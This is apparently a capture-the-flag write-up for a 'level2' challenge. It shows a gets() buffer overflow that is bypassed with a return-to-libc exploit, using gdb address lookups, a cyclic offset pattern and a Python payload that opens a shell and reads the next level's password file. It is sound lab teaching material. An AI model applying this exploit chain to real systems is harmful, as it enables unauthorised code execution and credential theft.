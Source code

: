 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
$> gdb ./level2
gdb> b main
gdb> r
gdb> p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
in little-endian : `\x60\xb0\xe6\xb7`

To get the "/bin/sh" string to pass in, were going to have find it inside of libc
```
(gdb) find &system, +9999999, "/bin/sh"
0xb7f8cc58
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
level2@RainFall:~$ gdb ./level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 80

Next, we need to construct the payload to exploit the vulnerability using the following format:
```
buffer + return address + system function address + fake return address + "/bin/sh" address from libc
```
```
$ python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "4242" + "\x58\xcc\xf8\xb7"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass

```
